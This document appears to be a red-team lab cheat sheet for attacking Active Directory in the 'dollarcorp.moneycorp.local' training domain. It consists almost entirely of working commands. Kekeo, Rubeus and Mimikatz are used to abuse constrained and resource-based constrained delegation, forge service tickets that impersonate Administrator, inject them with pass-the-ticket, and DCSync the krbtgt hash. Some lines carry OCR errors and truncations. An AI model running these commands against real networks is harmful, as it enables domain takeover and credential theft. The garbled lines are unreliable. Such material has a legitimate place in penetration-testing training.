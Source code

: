 #### Abuse Constrained Delegation - Kekeo
##### Re	quest a TGT
```powershell
tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:<rc4 hash>
```
##### Request a TGS
```powershell
tgs::s4u
/tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCA
```
or
```powershell
tgs::s4u /tgt:TGT_dcorp-adminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.loc al@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL
```
##### Inject the Ticket
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'
```

##### DCSYNC
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

#### Abuse Constrained Delegation - Rubeus
##### Request TGT and TGS in one command
```powershell
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt
```
or
```powershell
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```
##### DCSYNC
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

#### Resource-Based Constrained Delegation
##### Find Write Permissions
```powershell
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```
##### Set PrincipalsAllowedToDekefatreToAccount
```powershell
$comps = 'dcorp-student1$','dcorp-student2$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```
##### Use AES Key of student to access dcorp-mgmt as any user
```powershell
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```